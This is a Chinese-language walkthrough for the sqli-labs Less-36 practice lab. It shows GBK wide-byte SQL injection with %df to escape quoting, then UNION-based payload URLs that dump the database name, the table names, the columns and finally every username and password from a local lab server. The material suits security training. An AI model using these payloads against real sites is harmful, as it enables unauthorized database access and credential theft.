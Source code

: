 ```yaml
---
title: Less - 36
date: 2023-03-17T19:42:29Z
lastmod: 2023-03-20T18:09:34Z
---
```


# Less - 36

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-36/?id=1%27
```

​![image](assets/image-20230320132155-kv14zsc.png)​

查看源代码看看这关是否使用了GBK编码

​![image](assets/image-20230320132533-6pbxtph.png)​

确定使用了GBK编码，使用%df让单引号成功逃逸就可以了

```http
http://192.168.23.128/sqli-labs/Less-36/?id=1%df'
```

​![image](assets/image-20230320132618-ulqfhlu.png)​

通过错误信息判断闭合方式为'--+，并且为字符型注入

---

## 2、查看当前数据库名

---

```http
http://192.168.23.128/sqli-labs/Less-36/?id=-1%df' union select 1,2,database()--+           
```

​![image](assets/image-20230320132741-gdm1alp.png)​

---

## 3、查看security库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-36/?id=-1%df' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())--+
```

​![image](assets/image-20230320180738-l2asxty.png)​

---

## 4、查看users表下的所有字段

---

```http
http://192.168.23.128/sqli-labs/Less-36/?id=-1%df' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273)--+
```

​![image](assets/image-20230320180830-8trbsnf.png)​

---

## 5、查看username,password字段下的所有值

---

```http
http://192.168.23.128/sqli-labs/Less-36/?id=-1%df' union select 1,2,(select group_concat(username,password) from security.users)--+
```

​![image](assets/image-20230320180922-tvqmogb.png)​

‍
